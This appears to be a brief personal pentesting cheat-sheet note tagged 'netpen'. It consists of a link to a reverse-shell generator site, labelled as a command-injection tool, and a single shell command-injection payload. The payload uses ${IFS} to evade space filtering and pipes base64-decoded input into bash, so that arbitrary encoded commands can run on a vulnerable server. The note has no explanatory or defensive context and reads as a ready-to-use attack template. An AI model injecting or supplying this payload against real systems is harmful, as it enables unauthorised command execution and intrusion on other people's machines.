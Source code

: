```yaml
---
tags:
  - netpen
---
```


### Tools
---
1. [Command Injection](https://www.revshells.com/)
---
### Hash
```
;echo${IFS}' '|base64${IFS}-d|bash;
```
